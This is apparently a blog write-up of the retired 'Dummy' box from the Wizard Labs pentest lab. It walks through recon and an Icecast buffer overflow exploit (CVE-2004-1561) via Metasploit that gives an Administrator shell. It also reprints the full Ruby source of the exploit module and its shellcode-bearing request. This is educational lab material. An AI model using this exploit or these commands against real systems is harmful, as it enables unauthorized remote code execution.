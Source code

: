 ```yaml
---
layout: post
title: Wizard Labs - Dummy
categories: wizard-labs
tags: [Windows, Web, Buffer Overflow, RCE]
image: /wizardlabs/dummy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys this is my write-up about Dummy from [Wizard Labs](https://labs.wizard-security.net/). If you don't know them , They are a new penetration testing lab, They have 16 boxes so far and Dummy is their first box to retire. This lab is nice I definitely recommend checking it out. Dummy is a windows box and it was an easy one (Difficulty: 2/10). It had an http service which was vulnerable to a buffer overflow , and metasploit had a module for it so this box can be done easily through metasploit . I will show that, then we will take a look at the exploit and how it's happening. The ip of the box is 10.1.1.13 so let's jump right in.
![](/images/wizardlabs/dummy/0.png)
<hr>
### Nmap
#### As we always do we will start by scanning the box with nmap , so :
`nmap -sV -sT -sC 10.1.1.13`
![](/images/wizardlabs/dummy/1.png)
#### We see a lot of open ports , most of the http ports are running Microsoft HTTPAPI, we will ignore that and look at other things. We also see that the box has smb which is an interesting thing to look at so let's try smbmap
`smbmap -H 10.1.1.13`
![](/images/wizardlabs/dummy/2.png)
#### And we immediately get Access Denied so smb is not helpful here.
#### On port 8000 there's an http server and it's not running Microsoft HTTPAPI , it's running [Icecast streaming media server](http://icecast.org/). Let's check that port
<br>
<hr>
### Icecast
![](/images/wizardlabs/dummy/3.png)
#### If we go to that port we get a 404 response which is odd. We can try bruteforcing directories with dirbuster but that won't help too much.
#### By searching online we will find that an old version of icecast had a buffer overflow vulnerability which allowed for a remote code execution (RCE). And we also find a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header) . So let's open metasploit and search for icecast modules.
<br>
<hr>
### Metasploit
#### By doing `search icecast` we will find the module , and it's an exploit from 2004. 
![](/images/wizardlabs/dummy/4.png)
`use windows/http/icecast_header`
<br>
`set LHOST 10.253.xx.xx`
<br>
`set RHOST 10.1.1.13`
<br>
`exploit`
![](/images/wizardlabs/dummy/5.png)
#### And we got a meterpreter session. we can drop a shell by typing `shell` then if we type `whoami` we will find that we are already Administrator so no need for privilege escalation
![](/images/wizardlabs/dummy/6.png)
#### Then we can grab the flags 
![](/images/wizardlabs/dummy/7.png)
<hr>
### Header Overwrite
#### So now we did the box , but let's understand the exploit. basically it's a buffer overflow vulnerability, it happens because that version of icecast only accepted a maximum of 32 headers in the HTTP request , so if a request had 32 headers this caused the return address of the vulnerable function to be overwritten with a pointer to the begining of the header number 32. this means that anything we add as the 32nd header will be executed
#### So if we make a request with 31 headers and add shellcode as the 32nd header we can get a reverse shell and that's what metasploit is doing. But if we look at the [source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/icecast_header.rb) of the module :
```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Icecast Header Overwrite',
      'Description'    => %q{
        This module exploits a buffer overflow in the header parsing of icecast
        versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32
        HTTP headers will cause a write one past the end of a pointer array. On
        win32 this happens to overwrite the saved instruction pointer, and on
        linux (depending on compiler, etc) this seems to generally overwrite
        nothing crucial (read not exploitable).

        This exploit uses ExitThread(), this will leave icecast thinking the
        thread is still in use, and the thread counter won't be decremented.
        This means for each time your payload exits, the counter will be left
        incremented, and eventually the threadpool limit will be maxed. So you
        can multihit, but only till you fill the threadpool.
      },
      'Author'         => [ 'spoonm', 'Luigi Auriemma <aluigi[at]autistici.org>' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-1561'],
          [ 'OSVDB', '10406'],
          [ 'BID', '11271'],
          [ 'URL', 'http://archives.neohapsis.com/archives/bugtraq/2004-09/0366.html'],
        ],
      'Privileged'     => false,
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread',
        },
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => "\x0d\x0a\x00",
          'DisableNops' => true,
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', { }],
        ],
      'DisclosureDate' => 'Sep 28 2004',
      'DefaultTarget' => 0))

    register_options(
      [
        Opt::RPORT(8000)
      ])
  end

  # Interesting that ebp is pushed after the local variables, and the line array
  # is right before the saved eip, so overrunning it just by 1 element overwrites
  # eip, making an interesting exploit....
  # .text:00414C00                 sub     esp, 94h
  # .text:00414C06                 push    ebx
  # .text:00414C07                 push    ebp
  # .text:00414C08                 push    esi

  def exploit
    connect

    # bounce bounce bouncey bounce.. (our chunk gets free'd, so do a little dance)
    # jmp 12
    evul = "\xeb\x0c / HTTP/1.1 #{payload.encoded}\r\n"
    evul << "Accept: text/html\r\n" * 31;

    # jmp [esp+4]
    evul << "\xff\x64\x24\x04\r\n"
    evul << "\r\n"

    sock.put(evul)

    handler
    disconnect
  end
end

```
#### There's not much detail because it's based on metasploit so luckily I found this [refrence](https://securitytracker.com/id/1011439) which had a poc c code. 
#### By looking at this part of the code :
![](/images/wizardlabs/dummy/8.png)
#### We can see how the exploit is working. It's doing a GET request , adding 31 "a"s as headers , then the 32nd header is the shellcode.
#### If you want to know more about bufferOverFlows check out my [other articles](/categories)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Next Wizard Labs Write-up : [Wizard Labs - Devlife](/wizard-labs/dummy/)
<hr>
